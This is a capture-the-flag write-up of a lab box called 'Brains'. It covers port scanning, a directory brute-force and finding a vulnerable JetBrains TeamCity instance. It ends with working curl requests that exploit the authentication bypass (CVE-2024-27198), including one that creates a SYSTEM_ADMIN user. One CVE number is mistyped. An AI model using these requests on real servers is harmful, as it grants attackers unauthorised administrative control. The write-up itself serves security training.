

# Brains

Write up by Amir Lahlou

<div align="right"><figure><figcaption></figcaption></figure></div>

### Recon

```
// nmap scan
nmap -sS -Pn
```

This gave us a few open ports,

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
50000/tcp open  ibm-db2

```

Upon visiting the link we just get a header that says the site is under maintenance. There wasn't anything in the source code either.

Let's go ahead and try a directory bruteforce then.\


```
// Gobuster Directory Bruteforce

gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 40 -o gobuster.txt
```


After the directory bruteforce finished up we don't see anything special so lets take a look at port 50000 from our nmap scan from earlier.

<div align="left"><figure><figcaption></figcaption></figure></div>

### Enumeration

After visiting **`<IP>:50000/login.html`** we find a TeamCity login page running on **Version 2023.11.3 (Build 147512).**&#x20;


<figure><figcaption></figcaption></figure>


With a quick google search we can find **JetBrains TeamCity CVE-2024-271-198 and CVE-2024-27199** on [Rapid7](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/).&#x20;

<figure><figcaption></figcaption></figure>

<pre class="language-msf"><code class="lang-msf"><strong>curl -ik 'http://10.201.44.80:50000/hax?jsp=/app/rest/server;.jsp'
</strong></code></pre>

<div align="left"><figure><figcaption></figcaption></figure></div>

```
curl -ik http://10.201.44.80:50000/hax?jsp=/app/rest/users\;.jsp -X POST -H "Content-Type: application/json" --data "{\"username\": \"amiru\", \"password\": \"amiru\", \"email\": \"amiru\", \"roles\": {\"role\": [{\"roleId\": \"SYSTEM_ADMIN\", \"scope\": \"g\"}]}}"
```
